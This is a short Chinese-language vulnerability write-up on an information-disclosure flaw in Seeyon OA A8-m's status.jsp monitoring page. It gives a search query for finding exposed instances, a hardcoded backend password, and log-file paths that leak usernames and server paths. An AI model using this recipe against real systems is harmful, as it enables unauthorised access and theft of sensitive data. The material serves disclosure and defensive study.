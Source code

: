 # 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

```
致远OA A8-m
```

## 网络测绘

```
title="A8-m"
```

## 漏洞复现

访问监控页面

```
/seeyon/management/status.jsp
```

![image-20220520153340922](./images/202205201533962.png)

后台密码为 WLCCYBD@SEEYON

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![image-20220520153355298](./images/202205201533377.png)

![image-20220520153408356](./images/202205201534420.png)

![image-20220520153422315](./images/202205201534381.png)